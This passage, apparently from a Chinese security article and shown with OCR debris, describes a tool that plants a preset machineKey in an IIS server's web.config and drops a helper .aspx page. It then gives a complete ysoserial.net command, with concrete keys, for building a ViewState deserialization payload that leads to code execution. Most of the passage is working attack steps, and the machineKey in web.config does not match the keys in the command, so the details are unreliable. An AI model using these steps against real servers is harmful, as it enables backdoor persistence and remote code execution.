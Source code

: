 ```
Sharp4ViewStateShell4.exe &#34;C:\inetpub\wwwroot&#34;

```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxAeQh70XtXXL3y85HE4eyibnVpzf7c9ouZicuUyMpjVMm77bs68gusNOg/640?wx_fmt=png&from=appmsg "")  
  
该命令会完成以下操作：修改**web.config**  
，插入预设的MachineKey：  
  

```
<machineKey
 validationKey=&#34;B8D7C72D38E8972EA6B955F2D4C8D5B0A2E3F4C6A9B1D3E5F7A9C8B6D4E2F1&#34;
  decryptionKey=&#34;E4D5C6B3A8F9E7D6C5B4A3F2E1D0C9B8A7&#34;
  validation=&#34;SHA1&#34;
  decryption=&#34;AES&#34;/>

```

  
  
**在Upload目录下生成随机的脚本名，用于获取**
```
__VIEWSTATEGENERATOR
```

  
值，比如**HBJhbo_GenerateViewState.aspx。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxFDtNYjI2ib72cO78FvCFe7aCazsFibyxPovBA3XJgjZR295TH1EkWOaQ/640?wx_fmt=png&from=appmsg "")  
## 2.2 构建测试载荷  
  

```
只需根据辅助脚本获取的 
```


```
__VIEWSTATEGENERATOR
```

  
 值，并结合工具预设的 MachineKey，即可使用 
```
ysoserial.net
```

  
 工具构造反序列化 payload：  
  

```
ysoserial.exe -p ViewState -g XamlAssemblyLoadFromFile -c &#34;./ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll&#34; \
--validationalg=&#34;SHA1&#34; \
--validationkey=&#34;28E969418EFBAF7DAF4A05B12A9F588774129BA306ED094A0C9CA70A45F6C4A83512EB9CF050D7261ADA8E57728B830E540BC26394CEF1F43AEC642AD61D894F&#34; \
--decryptionalg=&#34;AES&#34; \
--decryptionkey=&#34;F6F6CB3C4FE662991CEF709C5A2ACDDD228FDF21CD708186736FE4B3E008B3A6&#34; \
--generator=&#34;DBC4925F&#34;

```
